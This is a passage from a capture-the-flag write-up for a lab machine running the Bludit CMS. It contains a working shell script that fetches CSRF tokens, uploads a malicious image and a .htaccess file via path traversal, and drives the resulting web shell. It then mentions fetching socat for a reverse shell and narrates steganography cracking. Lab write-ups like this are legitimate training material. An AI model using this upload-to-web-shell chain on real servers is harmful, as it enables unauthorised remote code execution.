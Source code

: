 ```sh

# get new csrf token
csrf_token=$(curl --silent 'http://10.10.10.191/admin/new-content' -H "Cookie: BLUDIT-KEY=${cookie}" | grep "var tokenCSRF = " | sed -nr 's/.*= "(.*)";/\1/p')

# upload evil.jpg
curl --silent -F "images[]=@/tmp/evil.jpg" 'http://10.10.10.191/admin/ajax/upload-images' -H "Cookie: BLUDIT-KEY=${cookie}" -F "uuid=../../tmp/evil" -F "tokenCSRF=${csrf_token}" > /dev/null

# and another csrf token
csrf_token=$(curl --silent 'http://10.10.10.191/admin/new-content' -H "Cookie: BLUDIT-KEY=${cookie}" | grep "var tokenCSRF = " | sed -nr 's/.*= "(.*)";/\1/p')

# upload .htaccess to tmp folder
curl --silent -F "images[]=@/tmp/.htaccess" 'http://10.10.10.191/admin/ajax/upload-images' -H "Cookie: BLUDIT-KEY=${cookie}" -F "uuid=blah-blah-blah" -F "tokenCSRF=${csrf_token}" > /dev/null

# Run commands on the new web shell
while true;do
 echo -n "$ "; read cmd
 curl --silent -G "http://10.10.10.191/bl-content/tmp/evil/evil.jpg" --data-urlencode "1=${cmd}"
done
```

## Web Shell Enum

Lets use the RCE above to download socat from our local server and setup a reverse shell(https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).

### ftp directory (skip this section if you like)

Then lets check the ftp server directory mentioned in the `todo.txt`, that sounds reasonable. Hmm...a PDF, a gzipped file with no extension,
some json and a `note.txt` file that says:

```
Hey Sophie
I've left the thing you're looking for in here for you to continue my work
when I leave. The other thing is the same although Ive left it elsewhere too.

Its using the method we talked about; dont leave it on a post-it note this time!

Thanks
Shaun
```

Passwords are left on post-it notes! Lets see what we can find, unzip the config file. Hmmm...a wav file, lets play it...and it sounds
like static. Perhaps this is steganography. Lets try and extract with steghide...nope, we either don't know the password or it's a different
method/program. Ok, lets try wavsteg...nevermind, we don't know the parameters. Ah, lets just try cracking the steghide password with stegcracker.
Success! The password is `sophie`. Looks like the output is some base64 encoded data. Lets throw it into cyberchef...and the output is some hex
values. Lets convert from hex...more base64? Convert from base64 again...and we get `fergus`??? WTF? Ok, lets try it as the password for all
the user accounts. Nope, maybe the hex value or the base64 values are passwords...nope. `-_-` Oh, this was left for Sophie so she could continue
Shaun's(fergus's) work, on the public site `-_-` Maybe the box creator set it up as a medium box, but they needed an easy box so they dumbed it
down and just closed off the ftp port, and threw a `todo.txt` on the web server.
